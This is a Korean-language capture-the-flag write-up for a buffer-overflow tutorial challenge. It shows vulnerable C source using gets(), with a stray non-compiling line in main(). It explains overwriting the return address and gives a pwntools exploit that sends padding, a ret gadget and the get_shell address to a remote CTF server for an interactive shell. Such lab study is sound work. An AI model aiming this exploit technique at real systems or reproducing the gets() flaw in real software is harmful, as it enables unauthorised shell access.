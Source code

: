 # bof_tutorial

> ### 소스코드를 분석하여 buffer overflow 방식으로 get_shell() 함수를 실행시켜 플래그를 얻어낼 수 있다. 


<hr>

# Solution 

- source code
```c
#include <stdio.h>
#include <stdlib.h>
void init( void )
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
void get_shell( void )
{
	system( "/bin/sh" );
}
int main( void )
{
	char buf[16];
	init();
	gets( buf );
	printf( "Your input is %s\n", buf );
	bof_tutorial guide 2
	return 0;
}
```
### 코드 분석

- 위의 소스 코드를 보면 `get_shell` 함수를 실행시키면 플래그를 얻을 수 있을 것 같은데 main 함수에는 `get_shell`함수를 실행하는 코드가 없다.
- 그리고 main 함수에는 입력을 받는 길이를 확인하지 않는 취약점을 가진 함수인 `gets` 함수가 있다.
- 스택 구조의 가장 밑(높은 주소)에있는 RET 영역은 다음에 실행할 명령어의 주소를 담고있다.
- 이 부분을 `get_shell` 함수의 주소로 덮으면 될 것 같다.
- 이 프로그램을 실행할 때 스택의 구조는 아래와 같다.
![스크린샷 2024-01-19 200142](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41){: width="100" height="100"}
<img src="https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41.png  width="300" height="300"/>
- `gets()` 함수로 입력을 받을 때 쓰레기 값으로 (16+8) byte를 채우고 그 뒤에 `get_shell` 함수의 주소를 입력하자.
- `info func`  명령어를 사용하면 함수들의 정보를 확인 할 수 있다.
- 이를 통해 `get_shell` 함수의 주소가 `0x00000000004011b7` 임을 알 수 있다.
- 이제 위에서 알아낸 정보들을 바탕으로  exploit 코드를 작성하면 된다.
```python
# bof_exploit.py
from pwn import *
# process를 실행하기 위한 함수
# remote로 접속하려면 remote 함수를 사용해야함
r = remote( "ctf.keeper.or.kr", 1010 )
payload = b"A" * 24 # buf( 16 bytes ) + SFP( 8 bytes )
payload += p64( 0x40101a ) # system 함수 내부 구현 때문에 ret gad
payload += p64( 0x4011b7 ) # get_shell
# payload를 입력하기 위한 함수. 
# 끝에 '\n'까지 붙여주는 기능을 갖고 있음.
r.sendline( payload )
# shell을 획득하고 나서 직접적인 상호작용을 위한 함수
r.interactive()
```

### 코드 실행 결과
![스크린샷 2024-01-19 190946](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/5c224b8e-46dc-434d-91c7-d2421a999990)

